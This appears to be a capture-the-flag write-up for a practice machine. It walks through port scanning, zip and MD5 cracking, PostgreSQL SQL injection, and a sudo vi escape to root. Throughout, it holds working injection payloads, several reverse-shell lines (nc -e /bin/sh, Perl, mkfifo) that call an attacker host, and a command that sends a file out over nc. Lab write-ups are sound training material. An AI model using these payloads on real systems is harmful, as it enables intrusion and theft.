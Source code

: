 `>> sudo nmap -p- --min-rate=1000 -sS -A -T4 10.10.10.46`  
	21/tcp open  ftp     vsftpd 3.0.3  
	22/tcp open  ssh     OpenSSH 8.0p1 Ubuntu 6build1 (Ubuntu Linux; protocol 2.0)  
	| ssh-hostkey:   
	|   3072 c0:ee:58:07:75:34:b0:0b:91:65:b2:59:56:95:27:a4 (RSA)  
	|   256 ac:6e:81:18:89:22:d7:a7:41:7d:81:4f:1b:b8:b2:51 (ECDSA)  
	|_  256 42:5b:c3:21:df:ef:a2:0b:c9:5e:03:42:1d:69:d0:28 (ED25519)  
	80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))  
	| http-cookie-flags:   
	|   /:   
	|     PHPSESSID:   
	|_      httponly flag not set  
	|_http-server-header: Apache/2.4.41 (Ubuntu)  
	|_http-title: MegaCorp Login  
  
`>> ssh: robert is not here, cannot ssh with his creds`  
`>> web: index is a login page`  
`>> python dirsearch/dirsearch.py -u http://10.10.10.46 -E`    
	[13:43:32] 403 -  276B  - /.htaccess-local                             
	[13:43:32] 403 -  276B  - /.htaccess-marco  
	[13:43:32] 403 -  276B  - /.htaccess-dev  
	[13:43:32] 403 -  276B  - /.htaccess.bak1    
	[13:43:32] 403 -  276B  - /.htaccess.old  
	[13:43:32] 403 -  276B  - /.htaccess.save  
	[13:43:32] 403 -  276B  - /.htaccessOLD2  
	[13:43:32] 403 -  276B  - /.htaccessOLD  
	[13:43:32] 403 -  276B  - /.htaccess.txt  
	[13:43:32] 403 -  276B  - /.htaccess.sample  
	[13:43:32] 403 -  276B  - /.htaccess.orig  
	[13:43:32] 403 -  276B  - /.htaccessBAK  
	[13:43:32] 403 -  276B  - /.htpasswd-old  
	[13:43:33] 403 -  276B  - /.httr-oauth  
	[13:43:38] 403 -  276B  - /.php                                        
	[13:44:32] 302 -  931B  - /dashboard.php  ->  index.php                        
	[13:44:51] 200 -    2KB - /index.php                          
	[13:44:52] 200 -    2KB - /index.php/login/  
	[13:44:57] 200 -    1KB - /license.txt                                                  
	[13:45:28] 403 -  276B  - /server-status                                               
	[13:45:28] 403 -  276B  - /server-status/  

`>> no passwords accepted, should bruteforce session id?`  

`>> ftp: may be the same as on previous machine`  
It is indeed  
`>> there is a backup file. With a password.`  
`>> fcrackzip -u -v -D -p '/usr/share/wordlists/rockyou.txt' backup.zip`  
	found file 'index.php', (size cp/uc   1201/  2594, flags 9, chk 5722)  
	found file 'style.css', (size cp/uc    986/  3274, flags 9, chk 989a)  


	PASSWORD FOUND!!!!: pw == 741852963  
`>> From index.php`
	if($_POST['username'] === 'admin' && md5($_POST['password']) === "2cb42f8734ea607eefed3b70af13bbd3")  

Time to dehash. No solt required.  
`>> hashcat -a 0 -m 0 hash.txt /usr/share/wordlists/rockyou.txt`  
	* Runtime...: 2 secs  

	2cb42f8734ea607eefed3b70af13bbd3:qwerty789  
	
	Use better passwords..  

`>> seems like nothing interestion in there... we are not the super admin yet. More like a content admin.`  

However, the serach field is interactive after some <$><\><"><?><'> we find out that we can do SQL injection in there!  
The original query is  
ERROR: unterminated quoted string at or near "'" LINE 1: Select * from cars where name ilike '%'%' ^  

Let's make a new queries:  

1) Select * from cars where name ilike '%  
2) aaa' union all select null as int, version(), null as text, null as text, null as text union all select * from cars where name ilike 'aaa  
3) %';  

`>> aaa' union all select null as int, usename, passwd, null as text, null as text from pg_shadow union all select * from cars where name ilike 'aaa`  
postgres 	md52d58e0637ec1e94cdfba3d1c26b67d01  

aaa'; drop table if exists cmd_exec_541; create table cmd_exec_541(cmd_output text); copy cmd_exec_541 from program 'nc -e /bin/sh 10.10.14.5 4444 &'; select null as int, cmd_output, null as text, null as text, null as text from cmd_exec_541 union all select * from cars where name ilike 'aaa  

DROP TABLE IF EXISTS cmd_exec;  
CREATE TABLE cmd_exec_541(cmd_output text);  
COPY cmd_exec FROM PROGRAM 'perl -MIO -e "$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"10.10.14.5:80");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;"';  
SELECT * FROM cmd_exec;  

aaa'; drop table if exists cmd_exec_541; create table cmd_exec_541(cmd_output text); copy cmd_exec_541 from program 'cat /var/www/html/dashboard.php | nc 10.10.14.5 80'; select * from cars where name ilike 'aaa  


as we cannot get rid of 1 and 3, we need to try to make their results to be empty  
Impossibru to establish the reverse shell, but was able to send individual commands to my shell  

$conn = pg_connect("host=localhost port=5432 dbname=carsdb user=postgres password=P@s5w0rd!");  

The same password is ok for ssh apparently.  

`postgres@vaccine:~$ cat user.txt`  
139d3e5c3db18073d250ce0dccc43997  

Time to escalate  
https://payatu.com/guide-linux-privilege-escalation  

`netstat -antup`  
Any root owned listeners? No.  

`ps -aux | grep root`  
Interesting root processess?  
Apache and www are owned by root. Cannot write there.

`id`  
uid=111(postgres) gid=117(postgres) groups=117(postgres),116(ssl-cert)  

`find / -perm -u=s -type f 2>/dev/null`  
Any SUID executables?  

`sudo -l`  
What can user sudo to?  
    (ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf 

Oh really?  
`sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf`  

`:!bash`  

`whoami`  
root   

`cat root.txt`  
dd6e058e814260bc70e9bbdef2715849  


PostEx  

Shell upgrade  
`SHELL=/bin/bash script -q /dev/null`  
`python3 -c "import pty; pty.spawn('/bin/bash')"`  

SQLi  
`sqlmap -u 'http://10.10.10.46/dashboard.php?search=a' --cookie="PHPSESSID=73jv7pdmjsv7dsspoqtnlv66ls"`  
`mkfifo 1474pipe`  
`cat 1474pipe | /bin/sh | nc 10.10.14.74 4444 | tee f`  
